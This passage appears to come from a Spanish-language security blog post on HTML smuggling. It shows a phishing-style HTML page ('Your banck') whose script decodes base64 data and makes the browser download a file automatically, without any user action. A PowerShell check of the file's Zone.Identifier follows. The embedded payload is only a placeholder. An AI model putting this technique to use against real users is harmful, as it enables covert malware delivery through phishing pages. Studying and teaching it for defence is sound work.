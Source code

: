 ```HTML
   </body>
</html>
```
o por ejemplo 

```HTML
<html>
    <head>
        <title>Your banck</title>
    </head>
    <body>
        <p>Real no fake money for you</p>

        <script>
        function convertFromBase64(base64) {
            var binary_string = window.atob(base64);
            var len = binary_string.length;
            var bytes = new Uint8Array( len );
            for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); }
            return bytes.buffer;
        }

        var file ='hashashashashahsh=';
        var data = convertFromBase64(file);
        var blob = new Blob([data], {type: 'octet/stream'});
        var fileName = 'test.txt';

        if(window.navigator.msSaveOrOpenBlob) window.navigator.msSaveBlob(blob,fileName);
        else {
            var a = document.createElement('a');
            document.body.appendChild(a);
            a.style = 'display: none';
            var url = window.URL.createObjectURL(blob);
            a.href = url;
            a.download = fileName;
            a.click();
            window.URL.revokeObjectURL(url);
        }
        </script>
    </body>
</html>
```
Cuando visites la página el navegador reconstruirá y descargará el fichero sin que el usuario haya tenido que interactuar ni exponer el link. 

> Recuerda que el fichero siempre tendrá en su descarga marcada la procedencia del mismo, internet, así como el link. Puedes usar gc para comprobarlo por ti mismo.
{: .prompt-tip }
```Powershell
PS C:\Users\c0nfig\Downloads> gc .\c0nfig.txt -Stream Zone.Identifier
[ZoneTransfer]
ZoneId=3
ReferrerUrl=http://c0nfigrealdomain.com/mysuggler.html
HostUrl=http://c0nfigrealromain.com/
```
